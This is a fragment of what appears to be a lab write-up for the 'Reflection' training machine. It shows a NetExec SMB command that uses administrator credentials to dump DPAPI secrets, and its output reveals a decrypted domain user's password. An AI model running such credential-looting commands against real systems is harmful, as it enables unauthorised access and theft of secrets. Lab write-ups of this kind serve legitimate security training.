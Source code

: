 ![alt text](<../assets/images/Screenshot_2025-02-04_21_33_10.png>)

    ➜  Reflection nxc smb MS01.reflection.vl -u Administrator -p 'H447.++h6g5}xi' --dpapi --local-auth     
    SMB         10.10.129.246   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
    SMB         10.10.129.246   445    MS01             [+] MS01\Administrator:H447.++h6g5}xi (Pwn3d!)
    SMB         10.10.129.246   445    MS01             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
    SMB         10.10.129.246   445    MS01             [+] Got 7 decrypted masterkeys. Looting secrets...
    SMB         10.10.129.246   445    MS01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{013CD3ED-72CB-4801-99D7-8E7CA1F7E370} - REFLECTION\Georgia.Price:DBl+5MPkpJg5id

we have again same thing for next target

![alt text](<../assets/images/Screenshot_2025-02-04_21_34_10.png>)
